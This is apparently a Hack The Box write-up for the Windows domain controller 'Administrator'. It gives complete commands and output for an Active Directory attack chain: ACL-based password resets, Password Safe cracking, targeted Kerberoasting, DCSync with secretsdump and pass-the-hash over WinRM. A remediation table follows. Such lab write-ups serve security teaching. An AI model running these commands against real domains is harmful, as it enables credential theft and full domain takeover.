






# Administrator - Hack The Box Write-Up

## Machine Information

| Field | Value |
| --- | --- |
| Machine | Administrator |
| Platform | Hack The Box |
| Status | Retired |
| Operating system | Windows Server 2022, build 20348 |
| Difficulty | Medium |
| Role | Active Directory domain controller for `administrator.htb` |
| Primary services | FTP, DNS, Kerberos, RPC, SMB, LDAP, WinRM, Active Directory Web Services |
| Main techniques | Supplied credentials, BloodHound ACL analysis, password-reset abuse, FTP, Password Safe cracking, targeted Kerberoasting, DCSync, pass-the-hash |

## Executive Summary

Administrator begins from an assumed-breach position with credentials for the low-privileged `Olivia` account. Service validation showed that Olivia could authenticate through WinRM and SMB but could not access FTP. BloodHound revealed that Olivia had `GenericAll` over `Michael`, allowing Michael's password to be reset without knowing the original value.

Michael's account had the narrower `ForceChangePassword` right over `Benjamin`. Resetting Benjamin's password enabled FTP access, where an encrypted Password Safe v3 database was recovered. The database master password was weak enough to crack with `rockyou.txt`, exposing stored credentials for three domain users. Emily's recovered credential authenticated successfully.

Further ACL analysis showed that `Emily` had `GenericWrite` over `Ethan`. This allowed a temporary service principal name (SPN) to be written to Ethan's user object, making the account Kerberoastable. The resulting RC4 TGS-REP was cracked offline, yielding Ethan's password.

Ethan already held the directory-replication rights `GetChanges`, `GetChangesAll`, and `GetChangesInFilteredSet` over the domain. Impacket used those rights to perform DCSync and recover all domain credential material, including the built-in Administrator's NT hash. Pass-the-hash authentication over WinRM then produced an interactive shell as `administrator\administrator`.



## Placeholder and Evidence Conventions

| Placeholder | Meaning |
| --- | --- |
| `<TARGET_IP>` | Current IP address assigned to Administrator |
| `<OLIVIA_PASSWORD>` | Redacted HTB-supplied password for Olivia |
| `<RESET_PASSWORD>` | Redacted attacker-selected password assigned to Michael and Benjamin |
| `<VAULT_PASSWORD>` | Redacted Password Safe master password |
| `<EMILY_PASSWORD>` | Redacted password recovered from the vault |
| `<ETHAN_PASSWORD>` | Redacted password recovered through targeted Kerberoasting |
| `<ADMIN_NT_HASH>` | Redacted NT hash for the built-in Administrator |
| `<REDACTED>` | Sensitive password, ticket, hash, or Kerberos key material removed from output |

No user or root flag value is included. The notes do not record reading either flag, so objective retrieval is not claimed. Full domain compromise is independently confirmed by the DCSync output and the final Administrator WinRM session.

## Reconnaissance

### TCP and Service Discovery

A full TCP scan identified a Windows Active Directory host:

```bash
nmap -sC -sV -p- -Pn <TARGET_IP> \
  --min-rate=10000 \
  -oA nmap/fullscan
```

```text
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI/2.0
```

NetExec later identified Windows Server 2022 build `20348`, hostname `DC`, and domain `administrator.htb`. The DNS, Kerberos, LDAP, SMB, global-catalog, and Active Directory Web Services ports established that the server was a domain controller. TCP `5985` exposed WinRM, while TCP `21` exposed Microsoft FTP.

Nmap rendered the LDAP domain as `administrator.htb0.`. Subsequent LDAP collection and successful domain authentication consistently established `administrator.htb`, so the extra `0.` was treated as a scanner parsing artifact rather than part of the domain name.

The required names were mapped locally:

```text
<TARGET_IP> dc administrator.htb dc.administrator.htb
```

SMB signing was enabled and required, and SMBv1 was disabled.

### Validating the Supplied Credential

Hack The Box supplied the `Olivia` credential as the starting condition. The password is redacted here even though it was provided by the lab.

FTP authentication failed because Olivia had no accessible FTP home directory:

```bash
nxc ftp <TARGET_IP> \
  -u Olivia \
  -p '<OLIVIA_PASSWORD>'
```

```text
[-] Olivia:<REDACTED>
Response: 530 User cannot log in, home directory inaccessible.
```

The same credential succeeded through WinRM and SMB:

```bash
nxc winrm <TARGET_IP> \
  -u Olivia \
  -p '<OLIVIA_PASSWORD>'

nxc smb <TARGET_IP> \
  -u Olivia \
  -p '<OLIVIA_PASSWORD>'
```

```text
[+] administrator.htb\Olivia:<REDACTED> (Pwn3d!)
[+] administrator.htb\Olivia:<REDACTED>
```

In this context, NetExec's WinRM `Pwn3d!` marker established usable remote command access. It did not mean Olivia was a domain administrator.

Share enumeration returned only standard domain-controller shares:

```bash
nxc smb <TARGET_IP> \
  -u Olivia \
  -p '<OLIVIA_PASSWORD>' \
  --shares
```

```text
Share     Permissions  Remark
-----     -----------  ------
IPC$      READ         Remote IPC
NETLOGON  READ         Logon server share
SYSVOL    READ         Logon server share
```

No useful custom SMB content was identified, so the attack path shifted to Active Directory relationship analysis.

## Active Directory Enumeration and Password-Reset Chain

### BloodHound Collection

The supplied credential was used to collect users, groups, sessions, and ACL relationships:

```bash
bloodhound-python \
  -c All \
  -d administrator.htb \
  -u Olivia \
  -p '<OLIVIA_PASSWORD>' \
  -ns <TARGET_IP> \
  -dc dc.administrator.htb \
  --zip
```

```text
WARNING: Failed to get Kerberos TGT.
Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
INFO: Falling back to NTLM authentication.
INFO: Found 11 users
INFO: Found 53 groups
INFO: Found 0 trusts
INFO: Done in 01M 01S
```

The domain controller and attacking host differed by several hours, so Kerberos rejected the initial TGT request. BloodHound's collector successfully fell back to NTLM for LDAP and completed enumeration. Time synchronization became mandatory later when requesting a Kerberos service ticket.

### Olivia's GenericAll over Michael

BloodHound showed that `Olivia` had `GenericAll` over `Michael`:



`GenericAll` is full control over the target object, not a password-reset-only permission. Resetting Michael's password was the selected abuse because it immediately produced a known credential:

```bash
net rpc password 'MICHAEL' '<RESET_PASSWORD>' \
  -U 'administrator.htb/Olivia%<OLIVIA_PASSWORD>' \
  -S dc.administrator.htb
```

The reset operation did not return an error. The new credential was then verified through WinRM:

```bash
nxc winrm <TARGET_IP> \
  -u MICHAEL \
  -p '<RESET_PASSWORD>'
```

```text
[+] administrator.htb\MICHAEL:<REDACTED> (Pwn3d!)
```

Michael still could not access FTP, so his value was his outbound ACL relationship rather than a new file-service permission.

### Michael's ForceChangePassword over Benjamin

Michael held the specific `ForceChangePassword` right over `Benjamin`:



This right allows the controlling principal to set a new password without knowing the target's current one:

```bash
net rpc password 'BENJAMIN' '<RESET_PASSWORD>' \
  -U 'administrator.htb/MICHAEL%<RESET_PASSWORD>' \
  -S dc.administrator.htb
```

The new Benjamin credential succeeded against FTP:

```bash
nxc ftp <TARGET_IP> \
  -u BENJAMIN \
  -p '<RESET_PASSWORD>'
```

```text
[+] BENJAMIN:<REDACTED>
```

The two password changes crossed identity boundaries but did not grant administrative privilege. Each controlled account was used only to reach the next capability in the chain.

## Credential Discovery through FTP

### Retrieving the Password Safe Database

Benjamin's new password allowed an interactive FTP login:

```bash
ftp <TARGET_IP>
```

```text
Name: BENJAMIN
Password: <RESET_PASSWORD>
230 User logged in.

ftp> dir
10-05-24  09:13AM  952  Backup.psafe3

ftp> get Backup.psafe3
```

Local file identification confirmed the format:

```bash
file Backup.psafe3
```

```text
Backup.psafe3: Password Safe V3 database
```

The database itself was encrypted; the security failure was the weak master password and the decision to expose a domain-credential backup through FTP.

### Cracking the Vault Master Password

Hashcat supports Password Safe v3 databases directly as mode `5200`:

```bash
hashcat -m 5200 \
  Backup.psafe3 \
  /usr/share/wordlists/rockyou.txt
```

```text
Hash.Mode........: 5200 (Password Safe v3)
Status...........: Cracked
Recovered........: 1/1 (100.00%)
```

The recovered master password is represented as `<VAULT_PASSWORD>`. The database was opened with the Password Safe client and contained entries for Alexander, Emily, and Emma:



Validate Emily's recovered credential against SMB:

```bash
nxc smb <TARGET_IP> \
  -u EMILY \
  -p '<EMILY_PASSWORD>'
```

```text
[+] administrator.htb\EMILY:<REDACTED>
```
## Targeted Kerberoasting

### Emily's GenericWrite over Ethan

BloodHound showed that `Emily` had `GenericWrite` over `Ethan`:



`GenericWrite` did not reveal Ethan's password directly. It permitted changes to non-protected attributes on his user object, including `servicePrincipalName`. Assigning an SPN temporarily makes a user account eligible for a Kerberos service ticket, enabling a targeted Kerberoast.

Kerberos had already reported excessive clock skew, so the attacking host was synchronized with the domain controller first:

```bash
sudo ntpdate <TARGET_IP>
```

The `targetedKerberoast.py` tool was then run with Emily's credential:

```bash
targetedKerberoast.py \
  -v \
  -d administrator.htb \
  -u EMILY \
  -p '<EMILY_PASSWORD>'
```

```text
[*] Starting kerberoast attacks
[*] Fetching usernames from Active Directory with LDAP
[VERBOSE] SPN added successfully for (ethan)
[+] Printing hash for (ethan)
$krb5tgs$23$*ethan$ADMINISTRATOR.HTB$...<REDACTED>
```

```bash
hashcat ethan.hash /usr/share/wordlists/rockyou.txt
```

```text
Hash.Mode........: 13100 (Kerberos 5, etype 23, TGS-REP)
Status...........: Cracked
Recovered........: 1/1 (100.00%)
```

The recovered password is represented as `<ETHAN_PASSWORD>`. The attack succeeded because Ethan's human-chosen password was present in a common wordlist; the SPN write only created the opportunity to test guesses offline.

The credential was validated against SMB:

```bash
nxc smb <TARGET_IP> \
  -u ETHAN \
  -p '<ETHAN_PASSWORD>'
```

```text
[+] administrator.htb\ETHAN:<REDACTED>
```

## Domain Compromise

### Ethan's Replication Rights

BloodHound showed three replication-related rights from Ethan to the `administrator.htb` domain:



`GetChanges` and `GetChangesAll` together form the capability BloodHound models as DCSync. `GetChangesInFilteredSet` additionally permits replication of attributes in the filtered set. These are directory-replication privileges; they do not necessarily provide local server administration or WinRM access.

### Replicating Domain Credential Material

Ethan's credential was supplied to Impacket's `secretsdump`:

```bash
impacket-secretsdump \
  'administrator.htb/ETHAN:<ETHAN_PASSWORD>@dc.administrator.htb'
```

```text
RemoteOperations failed: DCERPC Runtime Error: rpc_s_access_denied
Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:<REDACTED>:<ADMIN_NT_HASH>:::
krbtgt:502:<REDACTED>:<REDACTED>:::
administrator.htb\ethan:1113:<REDACTED>:<REDACTED>:::
Kerberos keys grabbed
<REDACTED>
Cleaning up...
```

The initial `RemoteOperations` error did not mean the overall operation failed. It showed that Ethan lacked an auxiliary remote-administration capability used by `secretsdump`. The tool then used DRSUAPI, which Ethan was explicitly authorized to call, and successfully replicated the domain credential database.

The output contained NT hashes and Kerberos keys for every domain account, including `Administrator` and `krbtgt`. This is full domain compromise even though Ethan was not shown as a member of `Domain Admins`.

### Pass-the-Hash over WinRM

The built-in Administrator's NT hash was accepted by WinRM without cracking it to plaintext:

```bash
evil-winrm \
  -i <TARGET_IP> \
  -u Administrator \
  -H '<ADMIN_NT_HASH>'
```

```text
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
administrator\administrator
```

The `whoami` result proves interactive command execution as the built-in domain Administrator on the domain controller.

## Trust and Privilege Boundaries

| Stage | Controlled identity or artifact | Boundary crossed |
| --- | --- | --- |
| Assumed breach | `administrator.htb\Olivia` | Obtained low-privileged WinRM, SMB, and directory-enumeration access |
| First reset | `administrator.htb\Michael` | Used Olivia's `GenericAll` to replace Michael's password |
| Second reset | `administrator.htb\Benjamin` | Used Michael's `ForceChangePassword` to replace Benjamin's password |
| Backup access | `Backup.psafe3` | Used Benjamin's FTP access to retrieve an encrypted credential store |
| Stored credential | `administrator.htb\Emily` | Converted the weak vault master password into a valid domain credential |
| Attribute control | Ethan's `servicePrincipalName` | Used Emily's `GenericWrite` to make Ethan temporarily Kerberoastable |
| Replication principal | `administrator.htb\Ethan` | Used the cracked password to exercise existing DCSync rights |
| Final access | `administrator.htb\Administrator` NT hash | Used pass-the-hash to execute commands as the built-in domain Administrator |

Password-reset control, attribute-write control, directory replication, and domain administration are separate security capabilities. The attack succeeded because they were connected in sequence, not because any early account was silently equivalent to an administrator.

## Security Observations and Remediation

| Observation | Impact | Recommended control |
| --- | --- | --- |
| A low-privileged user could access WinRM on the domain controller | Compromise of the assumed-breach account provided remote command capability on a Tier Zero system | Restrict WinRM by firewall, endpoint policy, and group membership to dedicated administrative identities and management hosts |
| Olivia had `GenericAll` over Michael | Olivia could fully control Michael's user object, including resetting the password | Remove broad object-control ACEs and delegate only narrowly required rights |
| Michael had `ForceChangePassword` over Benjamin | Michael could take over Benjamin without knowing his current password | Review password-reset delegations and alert on unexpected Event ID 4724 activity |
| FTP exposed a domain-credential backup | Compromise of one FTP-enabled account exposed an offline target containing additional credentials | Remove credential backups from user-accessible FTP roots, replace FTP with an encrypted protocol, and apply least-privilege file permissions |
| The Password Safe master password was wordlist-crackable | Encryption did not protect the vault once the weak master password was guessed | Use a long, unique master passphrase, strong access controls, and an enterprise secrets-management platform with auditing and MFA where practical |
| Multiple domain credentials were stored together | One vault compromise expanded access to unrelated identities | Separate credentials by role and trust tier, rotate exposed passwords, and avoid storing Tier Zero credentials with lower-tier accounts |
| Emily had `GenericWrite` over Ethan | Emily could modify Ethan's SPN and obtain crackable Kerberos material | Remove unnecessary write ACEs on user objects and monitor unexpected `servicePrincipalName` changes |
| Ethan used a wordlist-crackable password and RC4 ticket material was issued | A temporary SPN led to offline password recovery | Use long random passwords or managed service accounts, enable AES, and retire RC4 where compatibility permits |
| Ethan held domain replication rights | A non-DC user could retrieve all password hashes and Kerberos keys | Restrict replication rights to domain controllers and explicitly approved services; audit Event ID 4662 and DRSUAPI traffic from non-DC systems |

SMB signing was required and SMBv1 was disabled. These positive controls should be retained, although they did not address the directory ACL and credential-management failures used in this path.

All reset passwords, recovered credentials, and hashes exposed during the assessment should be rotated. Administrators should also verify removal of any temporary SPN written during targeted Kerberoasting.

## Key Lessons

1. Assumed-breach credentials are a starting condition, not proof that the initial account is privileged.
2. `GenericAll` and `ForceChangePassword` can produce the same immediate outcome—a known target password—but represent different levels of delegated control.
3. Forced password resets replace credentials; they do not recover the old password and may disrupt users or services.
4. An encrypted backup is only as resilient as its master password and storage permissions.
5. `GenericWrite` must be interpreted in the context of the target object. On a user, SPN modification can create a targeted Kerberoasting opportunity.
6. DCSync rights authorize credential replication without necessarily granting local administrative access to the domain controller.
7. A preliminary tool error does not outweigh later positive evidence. `secretsdump` failed an auxiliary remote operation but then successfully replicated directory secrets through DRSUAPI.
8. NT hashes are reusable authentication material. The final Administrator password never needed to be cracked.

## References

- [Hack The Box: Administrator](https://www.hackthebox.com/machines/administrator)
- [SpecterOps BloodHound: GenericAll](https://bloodhound.specterops.io/resources/edges/generic-all)
- [SpecterOps BloodHound: ForceChangePassword](https://bloodhound.specterops.io/resources/edges/force-change-password)
- [SpecterOps BloodHound: GenericWrite](https://bloodhound.specterops.io/resources/edges/generic-write)
- [ShutdownRepo: targetedKerberoast](https://github.com/ShutdownRepo/targetedKerberoast)
- [Hashcat wiki: supported hash modes](https://hashcat.net/wiki/doku.php?id=hashcat)
- [Password Safe](https://pwsafe.org/)
- [MITRE ATT&CK T1558.003: Kerberoasting](https://attack.mitre.org/techniques/T1558/003/)
- [SpecterOps BloodHound: GetChanges](https://bloodhound.specterops.io/resources/edges/get-changes)
- [MITRE ATT&CK T1003.006: DCSync](https://attack.mitre.org/techniques/T1003/006/)
- [MITRE ATT&CK T1550.002: Pass the Hash](https://attack.mitre.org/techniques/T1550/002/)
